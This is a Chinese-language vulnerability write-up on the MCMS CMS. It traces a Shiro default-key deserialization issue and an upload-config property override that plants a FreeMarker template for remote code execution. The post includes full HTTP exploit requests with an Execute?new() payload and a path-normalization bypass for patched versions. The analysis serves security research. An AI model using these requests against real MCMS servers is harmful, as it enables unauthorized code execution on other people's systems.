

# [](#%E5%8F%88%E5%8F%88%E5%8F%88%E6%98%AF%E4%B8%80%E4%B8%AA%E5%B1%9E%E6%80%A7%E8%A6%86%E7%9B%96%E5%B8%A6%E6%9D%A5%E7%9A%84%E6%BC%8F%E6%B4%9E "又又又是一个属性覆盖带来的漏洞")又又又是一个属性覆盖带来的漏洞

想到最近出了好几个与属性覆盖有关的漏洞，突然想到有一个国产系统也曾经出过这类问题，比较有趣这里简单分享一下，希望把一些东西串起来分享方便学到一些东西

## [](#%E5%89%8D%E5%90%8E%E7%AB%AF%E6%A1%86%E6%9E%B6%E4%BF%A1%E6%81%AF%E6%A2%B3%E7%90%86 "前后端框架信息梳理")前后端框架信息梳理

首先简单从官网可以看出所使用的框架信息以及技术选型

[https://gitee.com/mingSoft/MCMS?\_from=gitee\_search](https://gitee.com/mingSoft/MCMS?_from=gitee_search)

我们主要关注几个点一个是shiro，一个是freemarker，还有就是具体的一些未鉴权的功能点，同时支持两种部署方式jar/war

关于路由的说明，在启动类当中，指出了扫描的包名前缀为net.mingsoft

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>@SpringBootApplication(scanBasePackages = {"net.mingsoft"})<br>@MapperScan(basePackages={"**.dao","com.baomidou.**.mapper"})<br>@ServletComponentScan(basePackages = {"net.mingsoft"})<br>public class MSApplication {<br>	public static void main(String[] args) {<br>		SpringApplication.run(MSApplication.class, args);<br>	}<br>}<br>``` |

因此与路由相关函数只会出现在三个地方

1.  源目录下
2.  ms-basic依赖包下
3.  ms-mdiy依赖包下

这个系统曾出现过很多漏洞，各类后台文件上传利用，注入、任意文件删除等等，但其实都比较鸡肋不适合学习

## [](#Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E7%89%88%E6%9C%AC-lt-5-2-8 "Shiro反序列化(版本<=5.2.8 )")Shiro反序列化(版本<=5.2.8 )

在开始前先简单我们知道shiro的版本高低只是加密方式的改变，实际上反序列化漏洞依然存在，如果系统使用了默认的key那也是存在潜在风险的，而恰好在MCMS<=5.2.8版本下都使用了默认的key，使用这个key生成payload，直接打CB链即可

接下来我们重点看另一个漏洞

## [](#%E5%89%8D%E5%8F%B0%E6%A8%A1%E6%9D%BFSSTIRCE%E5%88%A9%E7%94%A8%E5%8F%B2 "前台模板SSTIRCE利用史")前台模板SSTIRCE利用史

接下来我们看另一个漏洞，和模板相关的漏洞

因为这里的模板渲染使用了`freemarker`，我们便有两个思路：

1.  版本是否在漏洞版本
2.  写法是否安全

在MCMS中关于模板的渲染处理，是通过封装了一个工具类做的处理，在依赖包`ms-mdiy`中的`net.mingsoft.mdiy.util.ParserUtil#rendering`做处理

MCMS是在5.1版本开始使用`freemarker`做模板渲染，并且版本一直没有改变过，传家宝`"2.3.31"`

对于freemarker的模板，通常是通过api与new进行的利用，当然也有利用限制

对于内置函数api

`api_builtin_enabled`为`true`时才可使用api函数，而该配置在2.3.22版本之后默认为`false`

对于内置函数new

从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：

1、UNRESTRICTED\_RESOLVER：可以通过 `ClassUtil.forName(className)`获取任何类。

2、SAFER\_RESOLVER：不能加载`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类。

3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。

可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过new()函数对`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类的解析

尽管MCMS的漏洞版本比较高，但是他在5.8版本以下并未对内置函数new做严格限制，具体我们可以看看`net.mingsoft.mdiy.util.ParserUtil#rendering`

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```plain<br>public static String rendering(Map root, String content) throws IOException, TemplateException {<br>    Configuration cfg = new Configuration(Configuration.VERSION_2_3_0);<br>    StringTemplateLoader stringLoader = new StringTemplateLoader();<br>    stringLoader.putTemplate("template", content);<br>    cfg.setNumberFormat("#");<br>    cfg.setTemplateLoader(stringLoader);<br>    Template template = cfg.getTemplate("template", "utf-8");<br>    StringWriter writer = new StringWriter();<br>    template.process(root, writer);<br>    return writer.toString();<br>}<br>``` |

虽然在freemarker版本在较安全的版本，但并未配置new-builtin-class-resolver，因此接下来我们只需要找到调用的点即可

在高版本后5.2.9，开发者终于意识到这个问题，设置了`cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);`

回到正题，这里我们先从较低的版本说起，以5.2.5来做例子

### [](#V-lt-5-2-5 "V<=5.2.5")V<=5.2.5

首先是一个能任意控制模板渲染的函数

这个路由非常好找，就在源码路径下为数不多不是CRUD功能的类中`net.mingsoft.cms.action.web.MCmsAction#search`

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>``` | ```plain<br>/**<br>     * 实现前端页面的文章搜索<br>     *<br>     * @param request  搜索id<br>     * @param response<br>     */<br>    @RequestMapping(value = "search",method = {RequestMethod.GET, RequestMethod.POST})<br>    @ResponseBody<br>    public String search(HttpServletRequest request, HttpServletResponse response) {<br>        String search = BasicUtil.getString("tmpl", "search.htm");<br>				............<br>        //解析后的内容<br>        String content = "";<br>        try {<br>            //根据模板路径，参数生成<br>            content = ParserUtil.rendering(search, params);<br>        } catch (TemplateNotFoundException e) {<br>            e.printStackTrace();<br>        } catch (MalformedTemplateNameException e) {<br>            e.printStackTrace();<br>        } catch (ParseException e) {<br>            e.printStackTrace();<br>        } catch (IOException e) {<br>            e.printStackTrace();<br>        }<br>        return content;<br>    }<br>``` |

可以这里通过`tmpl`参数能实现渲染文件的完全控制，但是

在`ParserUtil.getPageSize(search, 20)`当中我们会发现，其读取文件过程中使用了`hutool`的`FileUtil.file`,在这个第三方工具类使用了checkSlip防止目录穿越，因此非常可惜我们现在能渲染任意路径下的文件了

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```plain<br>public static File checkSlip(File parentFile, File file) throws IllegalArgumentException {<br>    if (null != parentFile && null != file) {<br>        String parentCanonicalPath;<br>        String canonicalPath;<br>        try {<br>            parentCanonicalPath = parentFile.getCanonicalPath();<br>            canonicalPath = file.getCanonicalPath();<br>        } catch (IOException var5) {<br>            throw new IORuntimeException(var5);<br>        }<br><br>        if (!canonicalPath.startsWith(parentCanonicalPath)) {<br>            throw new IllegalArgumentException("New file is outside of the parent dir: " + file.getName());<br>        }<br>    }<br><br>    return file;<br>}<br>``` |

那要想实现，那必须找到一个能够控制任意路径上传，或者能够配合目录穿越跳转的上传点，这个系统中正好就有，在`net.mingsoft.basic.action.web.EditorAction#editor`中，参数传入后交给了`MsUeditorActionEnter`类继续处理

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String rootPath = BasicUtil.getRealPath("");<br>    File saveFloder = new File(this.uploadFloderPath);<br>    if (saveFloder.isAbsolute()) {<br>        rootPath = saveFloder.getPath();<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "");<br>    } else {<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + this.uploadFloderPath);<br>    }<br><br>    String json = (new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""))).exec();<br>    if (saveFloder.isAbsolute()) {<br>        Map data = (Map)JSON.parse(json);<br>        data.put("url", this.uploadMapping.replace("/**", "") + data.get("url"));<br>        return JSON.toJSONString(data);<br>    } else {<br>        return json;<br>    }<br>}<br><br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

在初始化过程中，先初始化了父类，这里可以看到，`actionType`受我们传入的参数控制，这个参数决定了方法的调用

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```plain<br>public ActionEnter(HttpServletRequest request, String rootPath) {<br>    this.request = request;<br>    this.rootPath = rootPath;<br>    this.actionType = request.getParameter("action");<br>    this.contextPath = request.getContextPath();<br>    this.configManager = ConfigManager.getInstance(this.rootPath, this.contextPath, request.getRequestURI());<br>}<br>``` |

接下来回到`MsUeditorActionEnter`构造函数处理过程，紧接着调用了`this.getConfigManager()`初始化一些上传配置，而这个配置来源于文件`static/plugins/ueditor/1.4.3.3/jsp/config.json`，这个配置文件对上传做了限制，包括保存文件路径模板、大小、允许的后缀等，感兴趣的可以自己看看这个初始化过程，因为不太关键这里就不多叙述

在这里可以看到存在一个参数覆盖的问题(jsonConfig来源于web参数)，可以由自定义的输入覆盖默认配置，具体覆盖什么配置待会儿会说

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```plain<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

接下来初始化后调用exec方法，这里callback是否传入对我们不是很重要，继续看invoke方法

根据我们之前传入的actionType决定走入哪个分支

可以看到一共有8种类型，对应了不同的漏洞点，因为我们`只关心RCE`，所以这里就以上传为例，选择uploadfile

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>this.put("config", 0);<br>this.put("uploadimage", 1);<br>this.put("uploadscrawl", 2);<br>this.put("uploadvideo", 3);<br>this.put("uploadfile", 4);<br>this.put("catchimage", 5);<br>this.put("listfile", 6);<br>this.put("listimage", 7);<br>``` |

在之后调用`(new Uploader(this.request, conf)).doExec()`做处理，这里的参数走向我们同样不在乎随便选择一个即可

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```plain<br>public final State doExec() {<br>    String filedName = (String)this.conf.get("fieldName");<br>    State state = null;<br>    if ("true".equals(this.conf.get("isBase64"))) {<br>        state = Base64Uploader.save(this.request.getParameter(filedName), this.conf);<br>    } else {<br>        state = BinaryUploader.save(this.request, this.conf);<br>    }<br><br>    return state;<br>}<br>``` |

省略其中的不关键的部分，这里我们只需要关注最终保存路径的生成即可

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```plain<br>...<br>String savePath = (String)conf.get("savePath");<br>String originFileName = fileStream.getName();<br>String suffix = FileType.getSuffixByFilename(originFileName);<br>originFileName = originFileName.substring(0, originFileName.length() - suffix.length());<br>savePath = savePath + suffix;<br>long maxSize = (Long)conf.get("maxSize");<br>if (!validType(suffix, (String[])((String[])conf.get("allowFiles")))) {<br>    return new BaseState(false, 8);<br>} else {<br>    savePath = PathFormat.parse(savePath, originFileName);<br>    String physicalPath = (String)conf.get("rootPath") + savePath;<br>    InputStream is = fileStream.openStream();<br>    State storageState = StorageManager.saveFileByInputStream(is, physicalPath, maxSize);<br>    is.close();<br>    if (storageState.isSuccess()) {<br>        storageState.putInfo("url", PathFormat.format(savePath));<br>        storageState.putInfo("type", suffix);<br>        storageState.putInfo("original", originFileName + suffix);<br>    }<br>}<br>...<br>``` |

1.  从配置获取保存的路径
2.  从Multipart解析文件后缀拼接
3.  使用PathFormat.parse处理替换模板标签内容
4.  与根路径拼接并写入文件

在`com.baidu.ueditor.PathFormat#parse`的处理过程当中会对filename中字符做替换，导致`/`字符丢失因此不能从filename控制路径的穿越

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>``` |

因此我们只能通过控制`savePath`实现完整的路径控制(还记得么，上面一开始提到过可以做参数覆盖)，对于我们的uploadfile的action，对应的savepath属性为filePathFormat，因此构造，当然也可以覆盖其他属性参数这里不重复

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```plain<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={{url({filePathFormat:'/template/1/default/2'})}}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8079<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-2-8 "V<=5.2.8")V<=5.2.8

接下来我们看看开发是如何修复这个问题的，这里我的环境是5.2.8，这一次开发意识到了问题所在，做了两个步骤的修复

1.  rootPath由程序控制在必须为upload目录下
2.  对每一个路径配置做了一次路径归一化

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFloderPath = MSProperties.upload.path;<br>    String rootPath = BasicUtil.getRealPath(uploadFloderPath);<br>    jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFloderPath);<br>    Map<String, Object> map = (Map)JSONObject.parse(jsonConfig);<br>    String imagePathFormat = (String)map.get("imagePathFormat");<br>    imagePathFormat = FileUtil.normalize(imagePathFormat);<br>    String filePathFormat = (String)map.get("filePathFormat");<br>    filePathFormat = FileUtil.normalize(filePathFormat);<br>    String videoPathFormat = (String)map.get("videoPathFormat");<br>    videoPathFormat = FileUtil.normalize(videoPathFormat);<br>    map.put("imagePathFormat", imagePathFormat);<br>    map.put("filePathFormat", filePathFormat);<br>    map.put("videoPathFormat", videoPathFormat);<br>    jsonConfig = JSONObject.toJSONString(map);<br>    MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>    String json = actionEnter.exec();<br>    Map jsonMap = (Map)JSON.parseObject(json, Map.class);<br>    jsonMap.put("url", "/".concat(uploadFloderPath).concat(jsonMap.get("url") + ""));<br>    return JSONObject.toJSONString(jsonMap);<br>}<br>``` |

那是不是就没办法了呢？请独立思考三分钟

之前提到了在`PathFormat.parse`当中，有对最终路径当中的模板做替换(当然这里和老版本的逻辑不一样，简化了很多，分析时以当前版本为准，有兴趣可以看看老版)，可以看到会取{xxx}中的内容，之后调用getString做替换

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```plain<br>public static String parse(String input, String filename) {<br>    Pattern pattern = Pattern.compile("\\{([^\\}]+)\\}", 2);<br>    Matcher matcher = pattern.matcher(input);<br>    String matchStr = null;<br>    currentDate = new Date();<br>    StringBuffer sb = new StringBuffer();<br><br>    while(matcher.find()) {<br>        matchStr = matcher.group(1);<br>        if (matchStr.indexOf("filename") != -1) {<br>            filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>            matcher.appendReplacement(sb, filename);<br>        } else {<br>            matcher.appendReplacement(sb, getString(matchStr));<br>        }<br>    }<br><br>    matcher.appendTail(sb);<br>    return sb.toString();<br>}<br>``` |

可以看到如果字符不在当前的case当中会直接返回

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```plain<br>private static String getString(String pattern) {<br>    pattern = pattern.toLowerCase();<br>    if (pattern.indexOf("time") != -1) {<br>        return getTimestamp();<br>    } else if (pattern.indexOf("yyyy") != -1) {<br>        return getFullYear();<br>    } else if (pattern.indexOf("yy") != -1) {<br>        return getYear();<br>    } else if (pattern.indexOf("mm") != -1) {<br>        return getMonth();<br>    } else if (pattern.indexOf("dd") != -1) {<br>        return getDay();<br>    } else if (pattern.indexOf("hh") != -1) {<br>        return getHour();<br>    } else if (pattern.indexOf("ii") != -1) {<br>        return getMinute();<br>    } else if (pattern.indexOf("ss") != -1) {<br>        return getSecond();<br>    } else {<br>        return pattern.indexOf("rand") != -1 ? getRandom(pattern) : pattern;<br>    }<br>}<br>``` |

有了这个思路我们便可以构造如下payload绕过校验

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```plain<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={filePathFormat:'/{.}./template/1/default/2'}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8080<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-3-5-%E7%9B%AE%E5%89%8D%E6%9C%80%E6%96%B0%E7%89%88 "V<=5.3.5(目前最新版)")V<=5.3.5(目前最新版)

首先来看最新版做了哪些变动

1.  在最外层做了jsonConfig判断内容(似乎也没修复什么)

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFolderPath = MSProperties.upload.path;<br>    boolean enableWeb = MSProperties.upload.enableWeb;<br>    if (!enableWeb) {<br>        HashMap<String, String> map = new HashMap();<br>        map.put("state", "front end upload is not enabled");<br>        return JSONUtil.toJsonStr(map);<br>    } else {<br>        String rootPath = BasicUtil.getRealPath(uploadFolderPath);<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFolderPath);<br>        Map<String, Object> map = (Map)JSONUtil.toBean(jsonConfig, Map.class);<br>        String imagePathFormat = (String)map.get("imagePathFormat");<br>        imagePathFormat = FileUtil.normalize(imagePathFormat);<br>        String filePathFormat = (String)map.get("filePathFormat");<br>        filePathFormat = FileUtil.normalize(filePathFormat);<br>        String videoPathFormat = (String)map.get("videoPathFormat");<br>        videoPathFormat = FileUtil.normalize(videoPathFormat);<br>        map.put("imagePathFormat", imagePathFormat);<br>        map.put("filePathFormat", filePathFormat);<br>        map.put("videoPathFormat", videoPathFormat);<br>        jsonConfig = JSONUtil.toJsonStr(map);<br>        if (jsonConfig == null \| !jsonConfig.contains("../") && !jsonConfig.contains("..\\")) {<br>            MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>            String json = actionEnter.exec();<br>            Map jsonMap = (Map)JSONUtil.toBean(json, Map.class);<br>            jsonMap.put("url", "/".concat(uploadFolderPath).concat(jsonMap.get("url") + ""));<br>            return JSONUtil.toJsonStr(jsonMap);<br>        } else {<br>            throw new BusinessException(BundleUtil.getString("net.mingsoft.base.resources.resources", "err.error", new String[]{BundleUtil.getString("net.mingsoft.basic.resources.resources", "file.path", new String[0])}));<br>        }<br>    }<br>}<br>``` |

2.  禁止通过属性覆盖修改允许的后缀(我估计开发以为模板引擎必须要htm后缀才行了，忘记他自己写的函数是可以随意指定后缀了2333)，以及文件读取相关属性

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```plain<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>        super(request, rootPath);<br>        if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>            this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>            ConfigManager config = this.getConfigManager();<br>            setValue(config, "rootPath", rootPath);<br>            JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>            _jsonConfig.remove("fileManagerAllowFiles");<br>            _jsonConfig.remove("imageManagerAllowFiles");<br>            _jsonConfig.remove("catcherAllowFiles");<br>            _jsonConfig.remove("imageAllowFiles");<br>            _jsonConfig.remove("fileAllowFiles");<br>            _jsonConfig.remove("videoAllowFiles");<br>            _jsonConfig.remove("imageManagerListPath");<br>            _jsonConfig.remove("fileManagerListPath");<br>            JSONObject jsonObject = config.getAllConfig();<br>            Iterator iterator = _jsonConfig.keys();<br><br>            while(iterator.hasNext()) {<br>                String key = (String)iterator.next();<br>                jsonObject.put(key, _jsonConfig.get(key));<br>            }<br><br>        }<br>    }<br>``` |

3.  引擎解析测

设置禁止加载任意类

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER)<br>``` |

但这样并不能完全修复问题，可以参考辅助学习([https://www.cnblogs.com/escape-w/p/17326592.html)，虽然这个项目不存在这些问题就是了](https://www.cnblogs.com/escape-w/p/17326592.html)%EF%BC%8C%E8%99%BD%E7%84%B6%E8%BF%99%E4%B8%AA%E9%A1%B9%E7%9B%AE%E4%B8%8D%E5%AD%98%E5%9C%A8%E8%BF%99%E4%BA%9B%E9%97%AE%E9%A2%98%E5%B0%B1%E6%98%AF%E4%BA%86)

那么如何才能rce呢？提示一下，我们知道此时文件上传其实仍然能够跨目录写的，那么只能从白名单中受限的后缀入手，发挥你的想象，这里就不直接给出答案了
